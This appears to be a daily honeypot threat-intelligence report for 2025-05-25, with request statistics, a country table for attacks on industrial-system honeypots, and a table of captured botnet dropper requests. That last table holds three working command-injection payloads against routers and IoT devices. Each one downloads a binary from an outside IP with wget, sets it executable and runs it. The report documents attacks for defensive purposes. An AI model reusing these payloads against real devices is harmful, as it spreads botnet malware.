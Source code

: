```yaml
---
title: "Report: 2025-05-25 "
date: 2025-05-25
desciption: "Report: 2025-05-25" 
tags: [repport, daily]
---
```



# Daily Report: 2025-05-25 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 3 stage 1 IP address(es), linked to 3 dropper URL(s).  

There are 435 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 3330 requests were recorded during the day, originating from 3 different countries, with a peak of 1990 requests coming from FR.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Dubai              |
| US               | Dubai              |
| US               | Israel             |
| CN               | Georgia            |

## botnet_dropper_behaviour
| remote_addr    | request                                                                                                                                                                                                                              |
|:---------------|:-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 176.65.148.236 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20-rf%20neon.arm7%3B%20wget%20http%3A%2F%2F209.141.34.106%2Fdwrioej%2Fneon.arm7%3B%20chmod%20777%20neon.arm7%3B%20.%2Fneon.arm7%20router1 HTTP/1.1 |
| 42.228.114.101 | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                                                |
| 141.98.11.137  | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(id%3E%60cd+%2Ftmp%3B+rm+-rf+r%3B+wget+http%3A%2F%2F212.81.47.226%2Fr%3B+chmod+777+r%3B+.%2Fr+tplink%3B+rm+-rf+r%60) HTTP/1.1                                  |
